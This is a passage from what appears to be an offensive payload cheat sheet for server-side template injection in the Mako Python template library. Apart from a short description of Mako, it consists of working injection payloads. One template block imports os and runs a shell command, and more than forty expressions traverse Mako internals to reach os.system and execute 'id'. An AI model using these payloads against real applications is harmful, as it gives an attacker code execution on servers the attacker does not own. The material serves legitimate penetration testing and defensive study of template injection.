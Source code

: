 
## Mako

[Official website](https://www.makotemplates.org/)
> Mako is a template library written in Python. Conceptually, Mako is an embedded Python (i.e. Python Server Page) language, which refines the familiar ideas of componentized layout and inheritance to produce one of the most straightforward and flexible models available, while also maintaining close ties to Python calling and scoping semantics.

```python
<%
import os
x=os.popen('id').read()
%>
${x}
```

### Direct access to os from TemplateNamespace:

Any of these payloads allows direct access to the `os` module

```python
${self.module.cache.util.os.system("id")}
${self.module.runtime.util.os.system("id")}
${self.template.module.cache.util.os.system("id")}
${self.module.cache.compat.inspect.os.system("id")}
${self.__init__.__globals__['util'].os.system('id')}
${self.template.module.runtime.util.os.system("id")}
${self.module.filters.compat.inspect.os.system("id")}
${self.module.runtime.compat.inspect.os.system("id")}
${self.module.runtime.exceptions.util.os.system("id")}
${self.template.__init__.__globals__['os'].system('id')}
${self.module.cache.util.compat.inspect.os.system("id")}
${self.module.runtime.util.compat.inspect.os.system("id")}
${self.template._mmarker.module.cache.util.os.system("id")}
${self.template.module.cache.compat.inspect.os.system("id")}
${self.module.cache.compat.inspect.linecache.os.system("id")}
${self.template._mmarker.module.runtime.util.os.system("id")}
${self.attr._NSAttr__parent.module.cache.util.os.system("id")}
${self.template.module.filters.compat.inspect.os.system("id")}
${self.template.module.runtime.compat.inspect.os.system("id")}
${self.module.filters.compat.inspect.linecache.os.system("id")}
${self.module.runtime.compat.inspect.linecache.os.system("id")}
${self.template.module.runtime.exceptions.util.os.system("id")}
${self.attr._NSAttr__parent.module.runtime.util.os.system("id")}
${self.context._with_template.module.cache.util.os.system("id")}
${self.module.runtime.exceptions.compat.inspect.os.system("id")}
${self.template.module.cache.util.compat.inspect.os.system("id")}
${self.context._with_template.module.runtime.util.os.system("id")}
${self.module.cache.util.compat.inspect.linecache.os.system("id")}
${self.template.module.runtime.util.compat.inspect.os.system("id")}
${self.module.runtime.util.compat.inspect.linecache.os.system("id")}
${self.module.runtime.exceptions.traceback.linecache.os.system("id")}
${self.module.runtime.exceptions.util.compat.inspect.os.system("id")}
${self.template._mmarker.module.cache.compat.inspect.os.system("id")}
${self.template.module.cache.compat.inspect.linecache.os.system("id")}
${self.attr._NSAttr__parent.template.module.cache.util.os.system("id")}
${self.template._mmarker.module.filters.compat.inspect.os.system("id")}
${self.template._mmarker.module.runtime.compat.inspect.os.system("id")}
${self.attr._NSAttr__parent.module.cache.compat.inspect.os.system("id")}
${self.template._mmarker.module.runtime.exceptions.util.os.system("id")}
${self.template.module.filters.compat.inspect.linecache.os.system("id")}
${self.template.module.runtime.compat.inspect.linecache.os.system("id")}
${self.attr._NSAttr__parent.template.module.runtime.util.os.system("id")}
${self.context._with_template._mmarker.module.cache.util.os.system("id")}
```
